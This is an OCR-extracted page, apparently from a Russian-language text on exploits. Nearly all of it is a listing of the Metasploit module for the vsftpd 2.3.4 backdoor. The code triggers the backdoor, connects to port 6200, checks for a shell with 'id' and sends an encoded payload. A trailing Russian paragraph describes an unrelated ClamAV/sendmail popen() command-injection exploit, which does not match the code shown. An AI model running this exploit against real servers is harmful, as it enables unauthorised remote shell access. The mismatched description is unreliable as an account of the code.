 \begin{lstlisting}[caption=modules/exploits/unix/ftp/vsftpd\_234\_backdoor.rb]
    if resp =~ /^530 /
      print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
      disconnect
      return
    end

    if resp !~ /^331 /
      print_error("This server did not respond as expected: #{resp.strip}")
      disconnect
      return
    end

    sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

    # Do not bother reading the response from password, just try the backdoor
    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_good("Backdoor service has been spawned, handling...")
      handle_backdoor(nsock)
      return
    end

    disconnect

  end

  def handle_backdoor(s)

    s.put("id\n")

    r = s.get_once(-1, 5).to_s
    if r !~ /uid=/
      print_error("The service on port 6200 does not appear to be a shell")
      disconnect(s)
      return
    end

    print_good("UID: #{r.strip}")

    s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
    handler(s)
  end

end
\end{lstlisting}

Эксплоит к антивирусу ClamAV, используемому совместно с почтовым сервером sendmail. Из-за неправильного использования функции popen() появляется возможность выполнить команду в консоли на сервере.

